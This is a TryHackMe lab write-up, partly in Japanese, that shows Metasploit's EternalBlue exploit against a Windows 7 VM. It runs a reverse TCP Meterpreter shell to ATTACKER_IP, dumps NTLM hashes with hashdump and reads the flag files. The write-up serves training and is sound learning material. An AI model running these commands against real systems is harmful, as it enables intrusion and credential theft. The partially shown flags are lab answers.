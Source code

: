 If you are having difficulties with compromising the machine, here's a step-by-step guide to compromise the VM with Metasploit. If you would like to use Armitage, use this [guide that shows step-by-step](https://drive.google.com/file/d/1u-YmWl7cx3tO2vVjon0EtOGLXVCak2SJ/view?usp=sharing) instructions. Now onto Metasploit!  
Our first step is to launch Metasploit:  
```
root@attackbox$ msfconsole -q
msf5 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0
LHOST => eth0
msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST VICTIM_IP
RHOST => VICTIM_IP
msf5 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on ATTACKER_IP:4444 
[*] VICTIM_IP:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] VICTIM_IP:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)
[*] VICTIM_IP:445      - Scanned 1 of 1 hosts (100% complete)
[*] VICTIM_IP:445 - Connecting to target for exploitation.
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Now that we have exploited the Virtual Machine and have achieved System level access, we can use the hashdump command to retrieve the users NTLM hashes:  
```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d<snip!>4d6e0943c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae93<snip!>d7e0c089c0:::
Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867<snip!>5c1309a5c:::
meterpreter > 
```
All that is left is to now retrieve the flags in the user's Home folders:  
```
meterpreter > cat C:/Users/Administrator/Desktop/root.txt
THM{bd6ea6c87<snip!>21081132744}
meterpreter > cat C:/Users/Ted/Desktop/user.txt
THM{217fa45e3<snip!>fc0be28e760} 
```
And that's all there is to it! You have successfully compromised Ted's PC.

----------------------------------------Answer the questions below--------------------------------------------------  
とういことで本タスクで、Armitageを使用して攻撃したかったが今現在Armitageの開発はやってないらしく（[Webサイト](http://www.fastandeasyhacking.com.)も消滅、WeybackMachineで確認すると2021年以降に消滅していた。）、KaliLinuxで実行するとエラーがでた。  
なのでおとなしく、Msfconsoleを使います（なんかArmitageの開発者はCobalto Strikeに移ったらしいね）

What is the Administrator's NTLM hash?  
What is Ted's NTLM Hash?  
What flag can be found after gaining Administrative access to the PC?  
What flag can be found after gaining access to Ted's user account?  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Intro%20to%20C2_31.png" width="50%" height="50%">  
説明ではEternalBlueを使って攻撃しているので真似します。  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Intro%20to%20C2_32.png" width="50%" height="50%">  
成功したので、設問のAnswerをゲット！
